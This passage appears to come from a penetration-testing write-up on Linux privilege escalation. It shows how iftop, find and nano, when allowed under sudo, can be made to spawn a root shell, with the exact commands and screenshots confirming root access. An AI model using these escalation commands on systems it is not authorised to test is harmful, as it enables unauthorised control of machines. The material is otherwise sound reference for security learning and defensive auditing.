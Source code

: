 <br />

*If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.*

```
sudo iftop
/bin/sh
```

The `sudo iftop` command launches the application. The `!` character will then enable user input that we can use to execute the `/bin/sh/` command within it:

![image](https://user-images.githubusercontent.com/14150485/172015777-41a49b0e-3ac5-44b8-a968-baad37f402b2.png)

This will grant root access to the machine!

![image](https://user-images.githubusercontent.com/14150485/172013044-6373b96c-10c0-468e-ac85-605b1c551990.png)

<br />

**find**
--------

<br />

*If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.*

```
sudo find . -exec /bin/sh \; -quit
```

![image](https://user-images.githubusercontent.com/14150485/172013238-7a66d7ba-f032-49f9-a4ad-11a31378b90d.png)

<br />

**nano**
--------

<br />

*If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.*

`sudo nano`
<br />
`^R^X` - `^R` in this case being `Ctrl + R`, which enables a dialog box in the application, and `^X` being `Ctrl + X` that enables command execution.
<br />
`reset; sh 1>&0 2>&0`


![image](https://user-images.githubusercontent.com/14150485/172014033-8ed77c1d-c3e8-40d8-9051-d6c116811d85.png)

After executing the command, any user input is not displayed in nano which can make it a little hard for us to see what it really does, however the above steps do grant root access to the target. We can confirm this by cleaning the active window using the `clear` command and then checking the active user using `whoami`.
